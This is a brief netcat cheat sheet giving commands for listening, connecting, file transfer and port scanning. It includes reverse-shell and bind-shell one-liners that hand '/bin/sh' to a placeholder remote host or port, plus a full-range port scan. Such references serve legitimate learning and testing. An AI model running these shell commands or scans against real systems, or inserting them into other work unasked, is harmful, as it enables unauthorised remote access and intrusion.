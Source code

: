 # nc, ncat, netcat

concatenate and redirect sockets

## listen on the specified port

* don't resolve hostnames via DNS (`n`)
* display connection information (`v`)

```
nc -lnv <port>
```

on old/Windows versions of Netcat you have to specify the listening port via `-p <port>`

## connect to a netcat server

```
nc <host> <port>
```

## reverse shell

```
nc -e /bin/sh <host> <port>
```

## bind shell

```
nc -le /bin/sh <port>
```

## download file

#### 1. receiving end

```
nc -lnv <port> > <file>
```

#### 2. sending end

```
cat <file> | nc -nv <host> <port>
```

## port scanner

* zero-I/O mode (`z`)
* `$((0xffff))` evaluates to `65535`
* redirect standard error to standard out to be able to use `grep`

```
nc -v -z <host> 1-$((0xffff)) 2>&1 | grep "succeeded!"
```

## [...](https://nmap.org/book/ncat-man.html)
